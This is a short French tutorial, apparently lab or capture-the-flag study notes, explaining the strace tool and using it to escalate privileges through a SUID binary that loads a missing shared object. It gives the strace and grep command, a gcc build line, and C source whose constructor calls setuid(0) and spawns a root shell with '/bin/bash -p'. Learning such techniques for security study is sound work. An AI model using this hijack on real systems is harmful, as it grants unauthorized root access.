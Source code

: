 Description :

Permet de diagnostiquer les appels systèmes. En gros à chaque fois que le programme appelle une librairie, l'ouverture de fichier,... il nous le montre. Ca peut être bordelique donc l'utilisation d'un grep est judicieuse.

Exemple :  
`strace /usr/local/bin/suid-so 2>&1`

Là on regarde tous les appels système. `2>&1` sert a rediriger les erreurs (2) vers la sortie standard (1). Le & sert juste a spécifier qu'on redirige vers un autre descripteur de fichier.

Vulnérabilité possible grâce a strace :

si on a un fichier suid (fichier qui s'exécute avec les privilèges du owner du fichier donc si il appartient a root, peut importe qui le lance, il se lancera en root) que tu peux voir avec la commande ls -l et voir si le bit s est actif, on pourra voir tout les appels système. Donc si on fait `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` pour voir quelles sont les fichiers que le programme n'arrive pas à trouver, il nous les donnera. Grace à ca, on peut les créer nous même ces fichiers avec ce qu'on veut dedans.

Imaginons qu'il ne trouve pas un fichier .so nommé [libcalc.so](http://libcalc.so "http://libcalc.so") dans la dossier /home/user/.config, on peut créer le dossier .config (si il n'existe pas encore) puis créer notre propre Shared Object a partir d'un script.

`gcc -shared -fPIC -o /home/user/.config/`[libcalc.so](http://libcalc.so "http://libcalc.so") `/home/user/tools/suid/libcalc.c` . Dans mon exemple, dans le fichier libcalc.c, il y a un mini script qui donne les privilèges root :

#include <stdio.h>  
#include <stdlib.h>

static void inject() **attribute**((constructor));

void inject() {  
        setuid(0);  
        system("/bin/bash -p");  
}  
Enfin, on relance le fichier suid pour voir si ca marche.
